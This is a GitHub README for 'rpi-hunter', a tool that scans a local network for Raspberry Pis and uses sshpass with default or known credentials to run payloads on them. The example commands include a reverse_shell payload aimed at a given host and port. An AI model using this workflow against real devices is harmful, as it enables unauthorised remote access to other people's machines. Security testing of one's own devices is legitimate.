 # rpi-hunter
* Automate discovering and dropping payloads on LAN Raspberry Pi's via ssh
* Or, the honest title: Automating sshpass for command delivery.


![alt text](https://github.com/BusesCanFly/rpi-hunter/blob/master/screenshot.png "Who doesn't love ASCII art?")

Rpi-hunter is  useful when there are multiple Raspberry Pi's on your LAN with default or known credentials, in order to automate sending commands/payloads to them.

# GUIDE:

## Installation

1. Install dependencies: `sudo pip install -U argparse termcolor` and `sudo apt -y install arp-scan tshark sshpass`
2. Download rpi-hunter: `git clone https://github.com/BusesCanFly/rpi-hunter`
3. Navigate to rpi-hunter: `cd ./rpi-hunter`
4. Make rpi-hunter.py executable: `chmod +x rpi-hunter.py`
* One line variant: `sudo pip install -U argparse termcolor && sudo apt -y install arp-scan tshark sshpass && git clone https://github.com/BusesCanFly/rpi-hunter && cd ./rpi-hunter && chmod +x rpi-hunter.py`

## Usage

Check out this sweet video made by the people over at NullByte!
![Video](https://www.youtube.com/watch?v=qApJyIkDYvQ)
And the accompanying [write-up](https://null-byte.wonderhowto.com/how-to/discover-attack-raspberry-pis-using-default-credentials-with-rpi-hunter-0193855/)

	* Note: For the new people, I made a few updates to rpi-hunter to fix some bugs and add some more features :) Running the command `./rpi-hunter.py` will automatically scan your whole local network and run the `whoami` command on any raspberry pi's it finds

```
usage: rpi-hunter.py [-h] [--list] [--no-scan] [-r IP_RANGE] [-f IP_LIST]
                     [-c CREDS] [--payload PAYLOAD] [-H HOST] [-P PORT]
                     [--safe] [-q]

optional arguments:
  -h, --help         show this help message and exit
  --list             List available payloads
  --no-scan          Disable ARP scanning
  -r IP_RANGE        IP range to scan
  -f IP_LIST         IP list to use (Default ./scan/RPI_list)
  -u UNAME           Username to use when ssh'ing
  -c CREDS           Password to use when ssh'ing
  --payload PAYLOAD  (Name of, or raw) Payload [ex. reverse_shell or 'whoami']
  -H HOST            (If using reverse_shell payload) Host for reverse shell
  -P PORT            (If using reverse_shell payload) Port for reverse shell
  --safe             Print sshpass command, but don't execute it
  -q                 Don't print banner
```

* Run `./rpi-hunter.py --list` to see avalible payloads.
* Payloads can be specified by the payload name from `--list` or as raw input
    * ex. `--payload reverse_shell` or `--payload [your cli command here]`

* Example usage: 
	* `./rpi-hunter.py -r 192.168.0.0/16 --payload reverse_shell -H 127.0.0.1 -P 1337`
	* `./rpi-hunter.py -r 192.168.2.0/16 -c lamepassword --payload "ls -lah \~"`

## Disclaimer
## The standard internet fun disclaimer applies. Don't commit crimes, be responsible.

## I am in no way responsible for anything and everything you do with rpi-hunter.

